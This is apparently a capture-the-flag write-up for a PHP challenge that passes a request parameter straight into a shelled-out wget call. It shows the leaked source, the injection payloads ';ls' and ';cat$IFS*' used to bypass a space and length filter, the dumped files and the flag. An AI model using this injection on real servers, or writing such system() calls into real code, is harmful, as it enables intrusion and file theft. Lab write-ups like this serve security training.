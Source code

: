 We access the page and pe notice nothing. Looking at the html we notice
a comment `<!--- /?source -->`. Adding the source query parameter we see
the followings:

```
<?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

if(isset($_REQUEST['p'])){
    
    $p = preg_replace('/[^\x21-\x7e]/','', $_REQUEST['p']);
    $p = str_replace("flag", "", $p);
    $p = substr($p,0,9);
    
    system("wget -qO - " . $p . " 2>&1");

}

?>
<!-- /?source -->
```

Idea we need to inject a command with the parameter `p` so that we bypass the
filters. We use `http://34.141.72.235:32228/?p=;ls` and we notice `2` files
`flag.php` and `index.php`. We leak their content using this since spaces are
filtered:

```
http://34.141.72.235:32228/?p=;cat$IFS*
```

The result is:

```
<?php

//CTF{a9b6b13862f0a8d1312d777a91a596eba7cb010f}

?><?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

if(isset($_REQUEST['p'])){
	
	$p = preg_replace('/[^\x21-\x7e]/','', $_REQUEST['p']);
	$p = str_replace("flag", "", $p);
	$p = substr($p,0,9);
	
	system("wget -qO - " . $p . " 2>&1");

}

?>
<!-- /?source --><!-- /?source -->
```

The flag was:

```
CTF{a9b6b13862f0a8d1312d777a91a596eba7cb010f}
```
